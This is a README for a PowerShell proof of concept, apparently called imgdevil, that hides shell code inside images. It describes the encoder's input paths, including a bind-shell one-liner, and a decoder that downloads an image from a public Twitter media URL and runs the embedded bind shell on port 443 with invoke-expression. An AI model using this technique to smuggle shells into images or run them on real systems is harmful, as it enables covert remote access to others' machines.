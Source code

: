 # imgdevil
quick and dirty proof-of-concept to hide shells in images


## overview

*This code is rough. It is strictly to demonstrate.*


There are two files:

* imgdevil.ps1 -- contains both encoder and decoder. **DOES NOT EXECUTE ON ITS OWN**
* imgdevil_decoder_only.p1 --  the decoder + invoke-expression to run. **!! THIS WILL CREATE A SHELL !!**



### encoding
To encode an image, there are a few spots you will need to manually update in the script.

```
$originalimagepath = "C:\Users\nyxgeek\Desktop\kilroy500.png"
```
and
```
$inputpowershellpath = "C:\Users\nyxgeek\Desktop\bindshell_one-liner.ps1"
```

The rest of the paths are local, and will write out to the local directory.


&nbsp; 
### decoding
To decode an image, only one line needs to be changed:

```
$webpath = "https://pbs.twimg.com/media/DUUb7yQVQAEGZDp.png"
```

by default, this points to an encoded bind shell on port 443.


&nbsp;

&nbsp;

See the original blog post for more information: 
